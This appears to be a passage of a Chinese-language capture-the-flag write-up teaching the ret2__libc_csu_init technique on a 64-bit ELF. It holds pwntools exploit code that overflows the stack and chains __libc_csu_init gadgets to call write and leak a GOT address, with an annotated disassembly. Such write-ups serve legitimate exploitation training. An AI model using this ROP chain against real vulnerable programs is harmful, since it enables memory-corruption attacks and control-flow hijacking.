 这个程序的gadget比较少，想要劫持程序流的话可能不太容易，但是这个程序是64位程序我们可以使用ret2__libc_csu_init，其核心在于每个ELF 64-bit文件中都肯定有这样一段gadget：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1623390544148-221107c5-2c45-442f-b544-3b47763a692a.png)

首先利用程序的栈溢出布置stack并将程序的流程劫持到__libc_csu_init的0x4006AA地址处：

```python
pop_rdi_ret=0x4006b3 #rdi, rsi, rdx
pop_rsi_r15_ret=0x4006b1
pop_rbx_rbp_r12_r13_r14_r15_ret=0x4006AA
mov_gadget=0x400690
write_plt_addr=elf.plt['write']
write_got_addr=elf.got['write']
print hex(write_plt_addr)
print hex(write_got_addr)
main_addr=0x40061A
#gdb.attach(p)
p.recvuntil('Input:\n')
payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_got_addr)+p64(0x8)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)+p64(0xdeadbeef)*7+p64(main_addr)
#payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_got_addr)+p64(0x10)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)+p64(0xdeadbeef)*6+p64(main_addr)
#payload1='a'*136+p64(pop_rbx_rbp_r12_r13_r14_r15_ret)+p64(0)+p64(1)+p64(write_plt_addr)+p64(0x10)+p64(write_got_addr)+p64(0x1)+p64(mov_gadget)
p.sendline(payload1)
```

> 64位的ELF在默认情况下的传参方式是：
>
> 当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9；当参数为7个以上时， 前6个与前面一样， 但后面的依次放入栈中，即和32位程序一样。
>

其实我们可以使用逆向思维来解题，因为要泄露libc基地址肯定要泄露某个函数在程序运行时的真实地址，而且在这个程序中只有write函数具有打印地址的功能，所以选择使用write函数泄露地址。并且由于这个程序是64位的，所以要注意给write函数的传参方式：write($rdi,$rsi,$rdx)；但是程序中只有pop_rdi_ret这个gadget，没有pop_rsi_ret和pop_rdx_ret的gadget，使用__libc_csu_init可以帮我门走出困境，重点内容都标记到下面的代码框中了：

```c
.text:0000000000400690 loc_400690:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400690                 mov     rdx, r13
.text:0000000000400693                 mov     rsi, r14               #可以通过控制r14寄存器间接控制rsi寄存器
.text:0000000000400696                 mov     edi, r15d			  #可以通过控制r15寄存器的低32位间接控制rdi寄存器的低32位
.text:0000000000400699                 call    qword ptr [r12+rbx*8]  #可以令rbx==0，通过控制r12寄存器调用(call)某个函数
.text:000000000040069D                 add     rbx, 1
.text:00000000004006A1                 cmp     rbx, rbp
.text:00000000004006A4                 jnz     short loc_400690       #rbx和rbp“不相等则跳转”（继续从0x400690地址处执行）
.text:00000000004006A6
.text:00000000004006A6 loc_4006A6:                             ; CODE XREF: __libc_csu_init+36↑j
.text:00000000004006A6                 add     rsp, 8
.text:00000000004006AA                 pop     rbx                    #这里可以通过pop来控制rbx、rbp、r12、r13、r14、r15寄存器
.text:00000000004006AB                 pop     rbp
.text:00000000004006AC                 pop     r12
.text:00000000004006AE                 pop     r13
.text:00000000004006B0                 pop     r14
.text:00000000004006B2                 pop     r15
.text:00000000004006B4                 retn
```

